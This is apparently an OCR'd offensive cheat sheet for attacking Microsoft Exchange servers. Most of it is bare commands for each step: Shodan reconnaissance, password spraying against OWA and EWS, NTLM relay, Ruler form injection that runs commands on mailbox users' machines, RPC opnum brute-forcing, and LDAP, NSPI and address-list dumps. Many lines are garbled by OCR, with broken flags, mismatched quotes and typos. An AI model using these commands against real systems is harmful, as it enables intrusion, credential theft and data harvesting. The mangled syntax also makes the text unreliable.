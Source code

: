 # Exchange Attacks

#### Information Gathering



```
shodan search "'X-AspNet-Version http.title:'Outlook' –'x-owa-version'"
shodan search "http.favicon.hash:44274939"
shodan search "http.title:outlook exchange"
```

#### Attacks



**AutotDiscover**



```
   autodiscover/autodiscover.xml
```

**Known Vuln**

```
ProxyLogon(2021-26855)
ProxyShell(2021-34473)
HAFNIUM(2021-26858)
```

**Spray**

```
Invoke-PasswordSprayOWA
Invoke-PasswordSprayEWS
```

**NTLM Auth**

```
   nmap --script http-ntlm-info
```

**NTLMRelay**

```
reponder
./exchangeRelayx.py -t https://mail.evil.com
```

**GAL**

```
Get-GlobalAddressList -ExchHostname mail.domain.com -UserName
domain\username -Password password -OutFile global-address-list.txt
```

**Exchange Admin Group Deligation**

```
Bloodhound
net
```

**Rule**



```
   GUI
```

```
   Ruler
```

**Forms**



```
   ./ruler --email user@evil.dev form add --suffix superduper --input command.txt --send
```

**Anti-Malware**



```
evilmacro
macropack
```

**ActiveSync(LDAP)**



```
   LDAPPER. py -D EVIL -U 'Administrator' -P ‘password’ -S DC02.EVIL.DEV
' (msExchDeviceID=123456)
```

**ActiveSync(SMB Share)**



```
   peas - u ' EVIL.DEV\sh' -p '[password]' mail.evil.dev --list-unc'\\DC01\'
```

**ActiveSync(WSS)**



```
   peas -U ' EVIL.DEC\user’ -p ‘password’ exch01.evil.dev - -smb-user=‘EVIL\sharepoint-setup'
• - smb-pass=' password’ •-list-unc 'http://SHP01/share’
```

**RPC**



```
   nmap mail.evil.dev -p 6001 -sV - sC
```

```
 rpcmap . py -debug -auth-transport’EVIL/user:password’
'ncacn http: /6001,RpcProxy=mail.evil.dev: 443]'
```

```
 rpcmap.py -debug -auth-transport 'EVIL/user:password' -auth-rpc 'EVIL/mia:password' -auth-level 6 -brute-opnums 'ncacn_http:[6001,RpcProxy=mail.evil.dev:443]'
```

**LDAP**



```
 LDAPPER. py -D EVIL - U 'Administrator' -P ‘password’ -S DC01. EVIL.DEV
(mail=user@evil.dev) mail objectGUID legacyExchangeDN distinguishedName
```

```
exchanger. py EVIL/user: ‘password’@mail.evil.dev nspi
dump -tables -name Hackers -lookup-tvpe EXTENDED
```

**Phishing**



```
   gophish
```
